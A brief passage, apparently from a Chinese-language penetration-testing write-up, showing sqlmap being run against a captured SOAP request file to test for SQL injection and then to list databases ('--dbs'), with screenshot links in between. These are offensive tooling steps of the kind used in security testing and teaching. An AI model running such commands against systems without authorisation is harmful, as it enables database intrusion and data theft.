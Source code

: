 ```bash
sqlmap -r soap.txt
```

[![](assets/1705886707-acd4a65459b0ae6fd8928aa89d76b154.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120437-070f0076-b749-1.png)  
[![](assets/1705886707-6ff1734f7ba93083f9f4482bea9159c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120444-0b7b3fe4-b749-1.png)  
跑数据库

```bash
sqlmap -r soap.txt --dbs
```
